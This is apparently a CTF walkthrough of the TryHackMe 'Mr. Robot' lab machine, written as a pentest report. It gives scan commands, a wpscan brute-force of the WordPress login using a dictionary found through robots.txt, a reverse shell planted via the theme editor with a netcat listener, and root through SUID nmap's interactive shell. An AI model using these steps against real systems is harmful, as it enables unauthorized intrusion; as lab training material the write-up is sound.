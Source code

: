 ```yaml
---
title : "MrRobot"
date : 2025-06-19 
layout : post
categories : [THM]
tags : [MrRobot]
Difficulty : Medium
author : jana
---
```


# 🔍 Mr. Robot CTF Walkthrough – A Penetration Testing Report

## 🧠 Objective

This report details the steps taken to compromise the *Mr. Robot* vulnerable machine. The goal is to obtain user and root flags using a combination of web enumeration, password cracking, and local privilege escalation.

---

## 🔎 1. Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial.txt 10.10.10.100
```

**Results:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.7
```

### 🌐 Web Enumeration

Visited `http://10.10.10.100/` in browser.

- Found a **robot-themed website**.
- `robots.txt` revealed two interesting entries:
  ```
  User-agent: *
  Disallow: /fsocity.dic
  Disallow: /key-1-of-3.txt
  ```

### 🧰 Gobuster

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

- Found `/admin`, `/license`, `/images`, etc.
- No login forms, but `/fsocity.dic` is downloadable — appears to be a **dictionary file**.

---

## 🔓 2. Exploitation

### 🧪 Using `fsocity.dic` for WordPress Login Brute-force

Identified that the site uses **WordPress** (`wp-login.php` exists).

Used **wpscan**:

```bash
wpscan --url http://10.10.10.100 --wordlist fsocity.dic --username elliot
```

Successfully logged in as **elliot**.

### 🧬 Reverse Shell

Uploaded a **reverse shell** using WordPress theme editor (modified 404.php).

Set listener:

```bash
nc -lvnp 4444
```

Triggered reverse shell by visiting the modified file in browser.

---

## 🔐 3. Privilege Escalation

Enumerated user and found:

```bash
cat key-1-of-3.txt
```

### 🔍 Local Enumeration

Found SUID binary: `nmap`

```bash
nmap --interactive
> !sh
```

Got root shell via `nmap` interactive mode.

---

## 🏁 4. Flags

```bash
cat /home/robot/key-2-of-3.txt
```

```bash
cat /root/key-3-of-3.txt
```

---

## 📄 Summary

| Phase         | Technique / Tool                  | Result         |
|---------------|-----------------------------------|----------------|
| Recon         | Nmap, Gobuster                    | Identified WordPress |
| Exploitation  | Wpscan, fsocity.dic brute-force   | Gained user shell |
| Priv Esc      | SUID nmap                         | Root shell obtained |
| Flags         | Text files                        | ✅ All 3 flags captured |

---

## 🧠 Lessons Learned

- Always check `robots.txt` — goldmine for hidden files.
- Dictionary files can be reused for brute-force attacks.
- SUID binaries like `nmap`, `vim`, or `less` are classic privilege escalation vectors.

---

## 🧰 Tools Used

- Nmap
- Gobuster
- WPScan
- Netcat
- Burp Suite (for some traffic analysis)

---

## 📎 Tags

`#CTF` `#TryHackMe` `#VulnHub` `#WordPress` `#PrivilegeEscalation` `#Linux` `#Pentesting`

---

> ✍️ *Thanks for reading! If you found this useful, follow me for more walkthroughs and real-world pentest content.*

